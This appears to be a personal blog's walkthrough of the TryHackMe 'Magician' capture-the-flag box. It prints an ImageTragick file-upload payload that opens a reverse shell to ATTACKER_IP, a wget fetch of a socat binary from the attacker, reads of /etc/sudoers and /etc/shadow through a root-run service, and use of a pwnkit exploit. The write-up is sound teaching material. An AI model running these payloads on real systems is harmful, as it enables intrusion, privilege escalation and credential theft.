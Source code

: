 ```yaml
---
layout: post
title:  "Magician Writeup"
date:   2024-05-22 13:15:45 -0400
categories: writeup tryhackme
tags: writeup tryhackme easy
---
```

## Introduction
This is an easy challenge box on
[TryHackMe](https://tryhackme.com/r/room/magician){:target="_blank"}{:rel="noopener noreferrer"}
. Takes about 7 minutes to boot up

> This is what a hint will look like

## Enumeration
### Hosts
There's a note by the author that we need to add the 
following to our `/etc/hosts` file

`VICTIM_IP magician`

### Ports
Let's start with a scan to see open ports and services
```bash
rustscan -a VICTIM_IP -- -A -os scan -sC
```

![scan1](/images/magician/magician-scan1.png)

![scan2](/images/magician/magician-scan2.png)

We have three ports to take note of
- 21: FTP
- 8080: HTTP
- 8081: HTTP

### File Upload Service
Let's upload a test file and see what we can find

![test-upload](/images/magician/magician-test-upload.png)

Seems like converted files are sent to the `/files` 
directory on port 8080, the other open web port

![file-dir](/images/magician/magician-8080-files.png)

Unfortunately we can't view the uploaded file.
Clicking the link download the file so we need to find
another avenue

### FTP
> Do you need credentials to access ftp?
> The box isn't hanging, just be patient

Let's try to login to ftp with 
`anonymous:anonymous` credentials

```bash
ftp VICTIM_IP 21
```
![ftp](/images/magician/magician-ftp-hint.png)

We're given a hint to check out 
[ImageTragick](https://imagetragick.com/){:target="_blank"}{:rel="noopener noreferrer"}
. Older versions of ImageMagick, an image processing 
library, are vulnerable to RCE! Let's take advantage 
of this to get a shell

## Initial Foothold
> Inspect public payloads to get the proper format

### Exploit Crafting
For reference, I used 
[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick){:target="_blank"}{:rel="noopener noreferrer"}
and modified the ImageMagick exploit

Write the following into a file named `revshell.png` replacing
`ATTACKER_IP` with your ip

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|0<&196;exec 196<>/dev/tcp/ATTACKER_IP/4444; /bin/bash <&196 >&196 2>&196")'
pop graphic-context
```

### Magician Shell
Set a listener on your machine to catch the reverse shell

```bash
nc -lvnp 4444
```

Now we upload `revshell.png` and wait

![revshell](/images/magician/magician-revshell.png)

We're in!!! Since `python` is available we can stabilize
and improve the reverse shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# hit ctrl+z to background the process
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

Now we have colored output, tab completion, and can clear
the screen

![improved-shell](/images/magician/magician-upgraded-shell.png)

Let's investigate the home directory and see what
we can find

![listen-hint](/images/magician/magician-listen-hint.png)

> What local ports are listening?

We can list listening ports with

```bash
ss -tunlp
```

![listen-cmd](/images/magician/magician-listening-ports.png)

### linpeas
While this isn't necessary, running a privilege escalation
script can reveal interesting information

![linpeas-ports](/images/magician/magician-linpeas-ports.png)

> Which port wasn't seen in our initial scan?

![linpeas-6666](/images/magician/magician-linpeas-6666.png)

This tells us which port is open, as well as what's running 
on this port. 
[Gunicorn](https://gunicorn.org/){:target="_blank"}{:rel="noopener noreferrer"}
is an http server for Unix. We can confirm an http server 
is working by sending a request

```bash
curl localhost:6666
```

![curl-6666](/images/magician/magician-curl-6666.png)

## root.txt
> How can we access internal ports from outside 
> the internal network?

If we forward this port we can access this service in  our 
browser. To achieve this we'll be using a
[socat static binary](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64){:target="_blank"}{:rel="noopener noreferrer"}

```bash
# host, in directory with socat binary
python3 -m http.server 80

# victim
wget http://ATTACKER_IP/socat
chmod +x socat
./socat TCP-LISTEN:9999,fork TCP:127.0.0.1:6666
```

Now we can access the internal webserver by accessing

`http://magician:9999`

![port-forward-home](/images/magician/magician-port-forward-page.png)

It's asking us to input a file name. We know from linpeas 
that this process is running as root so let's try a file 
only root has access to. I'm going to use `/etc/sudoers` but 
you could also use `/etc/shadow` or `/root/root.txt`

![sudoers-bin](/images/magician/magician-sudoers-binary.png)

![sudoers-hex](/images/magician/magician-sudoers-hex.png)

![sudoers-b64](/images/magician/magician-sudoers-b64.png)

![sudoers-rot13](/images/magician/magician-sudoers-rot13.png)

The file we want to read will be given to us, but it will 
be in one of four formats: 
- binary 
- hex
- base64
- rot13

Thankfully these are all easy enough to decode with 
[cyberchef](https://cyberchef.org/){:target="_blank"}{:rel="noopener noreferrer"},
so now we're able to read `root.txt`!

## Alternative root.txt
> What does the source returned by port 6666 do?

If you don't want to port forward and can understand HTML and JS, 
you could always do things locally! By reading the source 
returned from `curl`, we see it's sending a post request with the 
variable `filename`. Let's emulate this with `curl`

```bash
curl localhost:6666 -d "filename=/etc/sudoers"
```

![curl-binary](/images/magician/magician-curl-binary.png)

We get the same thing!

## Root Shell
While this isn't the intended route, this box is still 
vulnerable to 
[pwnkit](https://github.com/joeammond/CVE-2021-4034){:target="_blank"}{:rel="noopener noreferrer"}
which is a local privilege escalation exploit. If you want to 
explore the box further upload the python script and run it

```bash
python3 CVE-2021-4034.py
# source for randomly encoding a file
cat /root/flask/magiccat.py
```

![magiccat](/images/magician/magician-root-magiccat.png)

## Recap
A web services converts user uploaded png files to jpg. 
An ftp hint directs the user to exploiting ImageMagick 
with [ImageTragick](https://imagetragick.com/){:target="_blank"}{:rel="noopener noreferrer"}.
Using 
[Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick){:target="_blank"}{:rel="noopener noreferrer"}
as a template,
a reverse shell payload can be crafted. Another hint points 
towards investigating listening ports. Using curl or port 
forwarding we have access to a privileged file read.
